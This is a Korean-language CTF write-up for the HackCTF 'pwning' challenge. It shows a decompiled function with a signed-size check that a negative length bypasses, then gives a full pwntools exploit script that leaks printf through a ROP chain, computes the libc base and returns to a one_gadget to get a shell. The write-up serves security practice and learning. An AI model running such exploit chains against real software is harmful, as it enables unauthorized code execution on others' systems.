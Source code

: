```yaml
---
title: "[HackCTF]pwning"
date: 2019-12-26
ctf: HackCTF
layout: post
published : false
---
```


그냥 underflow 이용해서 입력할 수 있는 공간을 늘려줄 수 있다면 쉽게 풀 수 있다.

`int $0x80` 있어서 syscall exploit인줄 알고 삽질했다.. pop 가젯이 부족해서 불가능이였다.

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4u);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

`get_n` 함수는 그냥 \n 받기전까지 입력된다. 그리고 v2가 int형이라 underoverflow를 이용해서 값을 늘려줄 수 있다. 

나는 printf를 릭해주고 libc 구한 후에 main으로 돌려서 맞는 libc의 원샷 가젯 찾아서 메인에서 리턴해줬다.

원샷은 libc 다운로드 받아서 one_gadget 돌렸다. libc는 버전 맞춰서 [printf offset](https://libc.blukat.me/?q=printf%3A020&l=libc6-i386_2.23-0ubuntu10_amd64) 구한다음에 libc base 구해줬다.

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./pwning')
p = remote('ctf.j0n9hyun.xyz',3019)
#p = process('./pwning')
r = ROP(e)

p.sendlineafter('? ',str(-1))

payload = '\x90'*0x2c
payload += 'sung'
r.printf(e.got['printf'])
r.raw(e.symbols['main'])
payload += r.chain()
p.sendlineafter('!\n',payload)

p.recvuntil('\n')
printf = u32(p.recv(4))
log.info('printf : '+ hex(printf))
libc_base = printf - 0x049020
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('? ',str(-1))

payload2 = '\x90'*0x2c
payload2 += 'sung'
payload2 += p32(libc_base + 0x3a80c)

p.sendlineafter('!\n',payload2)
p.interactive()
```

